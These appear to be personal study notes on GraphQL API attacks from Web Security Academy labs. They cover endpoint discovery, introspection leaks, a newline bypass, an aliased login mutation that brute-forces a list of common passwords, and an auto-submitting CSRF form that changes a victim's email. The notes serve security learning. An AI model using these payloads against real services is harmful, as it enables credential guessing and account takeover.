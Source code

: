 # GraphQL API

Created: April 27, 2025 4:49 PM

GraphQL APIs usually have a single endpoint of interaction.

- `/graphql`
- `/api`
- `/api/graphql`
- `/graphql/api`
- `/graphql/graphql`

There is a query called `introspection` , that can expose the schema behind the API if not disabled. Burp can generate such query using an automatic action.

![image.png](GraphQL%20API%201e2021737a8980a1b304fa98c4bb9d8f/image.png)

There is also such thing as “autosuggestions”, that could also expose field names.

Both flaws are detectable by Burp Scanner.

![image.png](GraphQL%20API%201e2021737a8980a1b304fa98c4bb9d8f/image%201.png)

![image.png](GraphQL%20API%201e2021737a8980a1b304fa98c4bb9d8f/image%202.png)

Bypassing with `%0a` char:

![image.png](GraphQL%20API%201e2021737a8980a1b304fa98c4bb9d8f/image%203.png)

![image.png](GraphQL%20API%201e2021737a8980a1b304fa98c4bb9d8f/image%204.png)

```bash
mutation LoginAttempts {
  attempt1: login(input: {username: "carlos", password: "baseball"}) {
    success
    token
  }
  attempt2: login(input: {username: "carlos", password: "abc123"}) {
    success
    token
  }
  attempt3: login(input: {username: "carlos", password: "football"}) {
    success
    token
  }
  attempt4: login(input: {username: "carlos", password: "monkey"}) {
    success
    token
  }
  attempt5: login(input: {username: "carlos", password: "letmein"}) {
    success
    token
  }
  attempt6: login(input: {username: "carlos", password: "shadow"}) {
    success
    token
  }
   attempt7: login(input: {username: "carlos", password: "master"}) {
    success
    token
  }
    attempt8: login(input: {username: "carlos", password: "666666"}) {
    success
    token
  }
    attempt9: login(input: {username: "carlos", password: "qwertyuiop"}) {
    success
    token
  }
    attempt10: login(input: {username: "carlos", password: "123321"}) {
    success
    token
  }
    attempt11: login(input: {username: "carlos", password: "mustang"}) {
    success
    token
  }
}
```

CSRF using `x-www-form-urlencoded` accepted payload:

![image.png](GraphQL%20API%201e2021737a8980a1b304fa98c4bb9d8f/image%205.png)

![image.png](GraphQL%20API%201e2021737a8980a1b304fa98c4bb9d8f/image%206.png)

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a05006d049f79ea80fd03c3007e0068.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="&#10;&#32;&#32;&#32;&#32;mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;email&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#125;&#10;&#32;&#32;&#32;&#32;&#125;&#10;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;hacker&#64;hackeeziks&#46;com&quot;&#125;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Protection

![image.png](GraphQL%20API%201e2021737a8980a1b304fa98c4bb9d8f/image%207.png)

![image.png](GraphQL%20API%201e2021737a8980a1b304fa98c4bb9d8f/image%208.png)

![image.png](GraphQL%20API%201e2021737a8980a1b304fa98c4bb9d8f/image%209.png)

[**Why Standard CSRF Attacks Can't Send `application/json` (But Sometimes Can)**](GraphQL%20API%201e2021737a8980a1b304fa98c4bb9d8f/Why%20Standard%20CSRF%20Attacks%20Can't%20Send%20application%20j%201e2021737a89809fa807e8a238e8047f.md)